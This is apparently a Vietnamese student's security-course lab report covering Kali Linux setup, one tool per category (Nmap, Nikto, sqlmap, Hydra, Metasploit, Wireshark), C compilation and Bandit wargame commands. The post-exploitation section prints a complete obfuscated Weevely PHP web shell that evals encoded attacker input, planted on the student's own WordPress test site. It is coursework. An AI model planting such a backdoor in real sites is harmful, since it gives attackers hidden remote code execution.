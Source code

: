 ### Bài 1: 
**a) Cài Kali Linux tại [https://www.offensive-security.com/kali-linux-vmware-virtualbox-image-download/](https://www.offensive-security.com/kali-linux-vmware-virtualbox-image-download/) , bản 32-bit  
Thêm user với tên và mã sinh viên của mình, gán cho user quyền sudo.**
+ Thêm user : tuananhb17dcat008 

![](https://i.imgur.com/C9inrwD.png)

+ User với quyền sudo (thuộc group sudo)

![](https://i.imgur.com/eic0PN1.png)
![](https://i.imgur.com/Dfot8ft.png)

**b) Tìm hiểu các tool có trong Kali Linux trong từng nhóm với 10 nhóm đầu tiên. Mỗi nhóm lựa chọn 1 tool bất kỳ có liên quan tới chức năng của nhóm đó, chạy thử các tool với ví dụ và chụp lại ảnh kết quả. Trong đó bắt buộc phải có tool Nmap/Zenmap (thử với comprehensive scan).**

#### Nhóm 1: Imformation gathering : Nmap - sử dụng để tìm toàn bộ sub-domain của cổng thông tin PTIT.

![](https://i.imgur.com/Gz5A59w.png)

#### Nhóm 2 : Vulnerability analysis : Nikto
![](https://i.imgur.com/XaCnv9I.png)
#### Nhóm 3 : Web application analysis : Burpsuite pro chứ không phải bản community

![](https://i.imgur.com/Kf3ZDGE.png)
![](https://i.imgur.com/giJGtKl.png)

#### Nhóm 4 : Database accessment : Sqlmap khai thác tấn công trang demo của acunetix
![](https://i.imgur.com/YsTAOPN.png)

![](https://i.imgur.com/uyb4VXO.png)

![](https://i.imgur.com/H5Df1Pq.png)

#### Nhóm 5 : Password attacks : 

Link video em demo brute force password telnet sử dụng Hydra  
https://www.dropbox.com/h?preview=Screencast+2021-03-06+03%3A15%3A11.mp4

![](https://i.imgur.com/2JnCrVq.png)

#### Nhóm 6 : Wireless Attacks 

Do các các công cụ trong nhóm này đều cần module WIFI để tấn công nên em không thực hiện DEMO được ạ.

![](https://i.imgur.com/nVCpXCi.png)

#### Nhóm 7 : Reverse Engineering : Sử dụng Clang ++ để compile code C++ thay cho G++

![](https://i.imgur.com/KqTmVv2.png)

#### Nhóm 8 : Exploitation Tools : Metasploit framework 

![](https://i.imgur.com/aDy8oJZ.png)

#### Nhóm 9 : Sniffing and Spooping : Em demo sử dụng Wireshark để chặn bắt gói tin TCP đối với card mạng Eth0

![](https://i.imgur.com/XxZbYnT.png)

#### Nhóm 10 : Post Exploit : Em sử dụng Weevely để tạo backdoor trong trang php dựng từ wordpress trên máy Host. Sử dùng máy Kali tạo script và tấn công.

+ Sử dụng weevely tạo ra một 404.php và upload lên sever.


    <?php
    
    $P='ob_~xend_clean();$~xr=@base~x64_e~xncode(@x~x~x(@gzcompr~xes~xs($o),$k));pri~xnt(~x"~x$p$kh$r$kf");}';
    
    $g='$k="~x827~xccb0e";$kh=~x"ea8a70~x6c4c34~x"~x;$k~xf~x="a16891f84e7b";~x$p="C~x21kNnholigA~x~x3Z~xJF";~x';
    
    $s='function ~xx($t,$k){$c=strl~xen($~xk~x);$l=strle~x~xn($t);$o=~x"";~xfor($~xi=0;$i<$l;~x){for($j=0~x';
    
    $k='a~xl(@gzunco~xmpr~xess(@x(@ba~xse6~x4_decod~xe($~xm~x[1])~x,$k)));$o=@ob_get~x_conte~xnts(~x~x);@';
    
    $d=str_replace('ci','','ccireciaciteci_fciunciction');
    
    $K=';~x($j<$c&&$i<~x$l);$~xj++,~x$i++){$~xo.=$t~x{$i}~x^$k{$j};}}~xre~xturn $o;}if~x (@preg~x_match(~x';
    
    $f='~x"/$kh(.+)$k~x~xf/",@~xfile_get_c~xon~xtents("php://i~xnp~xut~x"),$m)==1) {~x~x@ob~x_start();@ev';
    
    $L=str_replace('~x','',$g.$s.$K.$f.$k.$P);
    
    $N=$d('',$L);$N();
    
    ?>

![](https://i.imgur.com/pav9pgj.png)

+ Truy cập vào trang upload để kích hoạt backdoor.

![](https://i.imgur.com/bDy7I0e.png)

+ Truy cập từ máy tấn công.

![](https://i.imgur.com/ndeh1oa.png)

**Bài 2:  Tìm hiểu cách lập trình C trên Linux (thử nghiệm trên Kali Linux) và biên dịch ra file chạy được : ví dụ với chương trình in ra chuỗi "Hello World". Chụp các ảnh kết quả minh họa.**

![](https://i.imgur.com/7lUJNxr.png)

![](https://i.imgur.com/vIWnef3.png)

**Bài 3:  Tìm hiểu thêm về các câu lệnh command line trên Linux, với danh sách các câu lệnh ở dưới 2 link dưới đây** 

Các flag mà em lấy trên trang [http://overthewire.org/wargames/bandit/](http://overthewire.org/wargames/bandit/) )
![](https://i.imgur.com/kVN4REs.png)

Tổng hợp các lệnh xử dụng trong bài tập.

![](https://i.imgur.com/wnHKL5E.png)

![](https://i.imgur.com/ZtHYRkl.png)

![](https://i.imgur.com/TE2L2wA.png)

![](https://i.imgur.com/JMRHYDM.png)

![](https://i.imgur.com/35LcqFP.png)

Thầy có thể xem thêm một số tổng hợp nhỏ về Kali linux và Ubuntu tại Github cá nhân của em ạ.
https://github.com/ErikHorus1249/Guide-Documents


